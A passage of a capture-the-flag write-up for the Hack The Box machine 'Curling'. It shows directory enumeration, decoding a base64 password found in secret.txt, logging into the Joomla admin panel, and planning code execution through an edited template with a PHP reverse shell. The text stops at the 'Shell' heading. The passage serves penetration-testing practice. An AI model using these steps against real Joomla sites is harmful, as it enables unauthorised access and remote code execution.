




# 10 - HTTP


# CMS, PHP, Username floris


Index page contains quite a lot of information. First things first, the webserver is running Joomla which is essentially a CMS. The other important piece of information is that author of the first post is Floris, it could be a username. Also the date is 22 May 2018.


# secret.txt
```bashh
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ cat gobuster/initial-x.log  |grep -v 403
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/]
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/]
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]
/index.php            (Status: 200) [Size: 14266]
/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/]
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/.                    (Status: 200) [Size: 14246]
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]
/secret.txt           (Status: 200) [Size: 17]
/configuration.php    (Status: 200) [Size: 0]
/README.txt           (Status: 200) [Size: 4872]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 310] [--> http://10.10.10.150/cli/
```

secret.txt can also be found as a comment in the html source.

```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ curl -s 10.10.10.150 | tail -3
</body>
      <!-- secret.txt -->
</html>
```


# Password
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ curl -s http://10.10.10.150/secret.txt  | base64 -d ;echo
Curling2018!
```

We have potential credentials. Let's try to log in.

* Floris:Curling2018!

# Administrator


Login is successful.

# Code execution by modifying a template



We can access the template by going to Extensions --> Templates --> Beez3 --> index.php. With template preview we can execute our malicious php code. I prefer php-reverse-shell.php but I think one liners are totally fine too.


# Shell


